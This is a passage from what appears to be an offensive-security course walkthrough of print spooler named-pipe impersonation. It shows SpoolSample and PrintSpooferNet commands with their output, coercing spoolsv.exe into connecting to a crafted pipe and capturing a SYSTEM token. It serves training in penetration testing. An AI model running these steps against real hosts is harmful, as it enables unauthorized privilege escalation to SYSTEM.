 To verify this, we can repeat our last example but this time supplying an arbitrary pipe name that contains a forward slash in the print client name:

```
C:\Tools> SpoolSample.exe appsrv01 appsrv01/test
[+] Converted DLL to shellcode
[+] Executing RDI
[+] Calling exported function
TargetServer: \\appsrv01, CaptureServer: \\appsrv01/test
RpcRemoteFindFirstPrinterChangeNotificationEx failed.Error Code 1707 - The network address is invalid.
```

> Listing 36 - Invoking SpoolSample with forward slash

We receive an error and Process Monitor confirms the theory (Figure 3).

![[OffSec/OSEP/Course/z. images/324f59207828aa1e8163e1114f0ddac9_MD5.jpg]]

Figure 3: Path canonicalized and attempted access

First, the path we supplied (appsrv01/test) has been switched to a canonical form (appsrv01\test) as part of the full path.

Second, spoolsv.exe attempted to access the named pipe \\.\appsrv01\test\pipe\spoolss while performing the callback. Since we have not created a pipe server by that name yet, the request failed.

At this point, we just need to create a pipe server with that name and simulate a print client. When we execute SpoolSample, the print spooler service will connect to our pipe.

To do this, we'll open another command prompt and launch our PrintSpooferNet application. Recall that we are launching our application from a _Network Service_ command prompt because we are demonstrating a scenario where we have exploited a process that has the _SeImpersonatePrivilege_, and we are trying to escalate to SYSTEM.

```
C:\Tools> PrintSpooferNet.exe \\.\pipe\test\pipe\spoolss
```

> Listing 37 - Creating the pipe server

Now we'll invoke SpoolSample to trigger the change notification against the capture server (appsrv01/pipe/test) as shown in Listing 38.

```
C:\Tools> SpoolSample.exe appsrv01 appsrv01/pipe/test
[+] Converted DLL to shellcode
[+] Executing RDI
[+] Calling exported function
TargetServer: \\appsrv01, CaptureServer: \\appsrv01/pipe/test
RpcRemoteFindFirstPrinterChangeNotificationEx failed.Error Code 1722 - The RPC server is unavailable.
```

> Listing 38 - Invoking SpoolSample again the pipe server

Our application reveals a connection from the "S-1-5-18" SID :

```
C:\Tools>PrintSpooferNet.exe \\.\pipe\test\pipe\spoolss
Found sid S-1-5-18
```
